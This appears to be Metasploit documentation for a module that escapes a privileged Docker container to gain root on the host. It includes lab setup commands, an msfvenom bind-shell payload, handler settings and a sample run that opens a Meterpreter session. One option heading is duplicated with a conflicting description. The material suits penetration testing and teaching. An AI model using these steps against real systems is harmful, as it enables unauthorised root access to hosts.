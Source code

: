 ## Vulnerable Application

Docker Privileged Container Escape that obtains root on the host machine by abusing the Linux cgroup notification on relase feature.

Both meterpreter shell and classic shell are supported. The exploit will copy a payload to a writable directory in the container and then escape the container and either search for the payload on the file system or copy it directly from the container and then execute it on the host. 

# Creating A Testing Environment

- Install Docker
- Create a privileged container (forwarding port 4444 in this example in order to use a bind shell from the host)
```bash
docker run -d -it --name test-vuln-container -p 4444:4444 --privileged ubuntu
```
- Obtain a shell on the container with metasploit. One possible option is:
```bash
# Create a bind shell using msfvenom
msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=4444 -f elf -o ./bind4444.bin
# Copy bind shell into container
docker cp ./bind4444.bin test-vuln-container:/bind4444.bin
# Execute bind shell in the container
docker exec -it test-vuln-container /bind4444.bin
```
- Connect to this bind shell in metasploit
```bash
use multi/handler
set payload linux/x64/meterpreter/bind_tcp
set rhost 127.0.0.1
set lport 4444
run
```

## Verification Steps

1. `use exploit/linux/local/docker_privileged_container_escape`
2. `set SESSION [session]`
3. `set PAYLOAD [payload]`
4. `set LHOST [lhost]`
5. `set LPORT [lport]`
6. `exploit`

## Options

## PAYLOAD

Set this option to choose which type of root session you want to create.

## ForceExploit

Force exploit even if the current session does not appear to be in a docker container, or the container does not appear vulnerable.

## ForcePayloadSearch

Force the exploit to search for the payload in the file system rather than copying out of the docker container. This avoids the need for a writable directory on the host system. Typically, the filesystem of the container will be located in the `/var/lib/docker/overlay2/` directory.

## WritableContainerDir

A directory where we can write files inside the container (default is /tmp). This is needed to drop the payload into the container.

## WritableContainerDir

A directory where we can write files on the host (default is /tmp). This is needed to copy the payload from the container onto the host. Alternatively see ForcePayloadSearch

# Scenarios

## Container Escape starting with a meterpreter shell

```
msf5 exploit(multi/handler) > use exploit/linux/local/docker_privileged_container_escape
msf5 exploit(linux/local/lxc_privilege_escalation) > set session 1
session => 1
msf5 exploit(linux/local/lxc_privilege_escalation) > run

[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] Writing payload executable to '/tmp/aLQdBKpMXLo'
[*] Executing script to exploit privileged container
[*] Sending stage (3012516 bytes) to 192.168.0.231
[*] Meterpreter session 4 opened (0.0.0.0:0 -> 192.168.0.231:4444) at 2020-07-19 14:50:51 +0100
```
